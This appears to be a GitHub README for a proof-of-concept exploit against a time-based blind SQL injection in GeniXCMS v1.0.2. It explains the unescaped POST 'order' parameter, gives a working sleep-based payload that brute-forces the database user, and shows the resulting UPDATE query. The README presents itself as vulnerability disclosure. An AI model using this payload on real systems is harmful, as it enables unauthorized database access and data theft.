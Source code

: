 # geniXCMS_102_sql_inj_poc
A demo PoC to exploit the time-based blind SQL injection vulnerability in latest GeniXCMS v1.0.2

# Notes
This SQL injection bug happened in the file `inc/lib/Control/Backend/menus.control.php` in GeniXCMS v1.0.2(latest) due to the parameter `$_POST['order']` failed to escape evil SQL injection keywords (only single quote has been filtered), and then it is used in a `UPDATE ... SET ...(injectable here)... WHERE ...` SQL statement.

In this demo case, only use `select user()` to burte forcing the current DB user.

Here is menus table in my Testing Lab maching:

```
mysql> select * from menus;
+----+------------+---------+--------+-----+------+-------+-------+-------+
| id | name       | menuid  | parent | sub | type | value | class | order |
+----+------------+---------+--------+-----+------+-------+-------+-------+
|  0 | test menu  | tstMenu | 0      | 0   | cat  | 1     |       | 0     |
|  3 | test menu2 | tstMenu | 0      | 0   | cat  | 1     |       | NULL  |
+----+------------+---------+--------+-----+------+-------+-------+-------+
2 rows in set (0.00 sec)

```

This is the SQL injection payload:

`order[0][order`=1 and (select * from (select(if(ascii(substr((select user()),1,1))=114,sleep(3),0)))a) and `name]`


This is the logic of SQL UPDATE statement after the payload injected:
```
UPDATE `menus` SET `id`='1' and (select * from (select(if(ascii(substr((select user()),1,1))=114,sleep(10),0)))a) and `name` = '1', WHERE `id` = '0' LIMIT 1;
```

# Reference
This vulnerability is discovered by `ADLab of Venustech`, and more detail can be found in [here][1]



<!--- Reference -->

[1]: https://github.com/semplon/GeniXCMS/issues/71#issuecomment-279409812				"SQL injection vulnerability in GeniXCMS v1.0.2(latest)"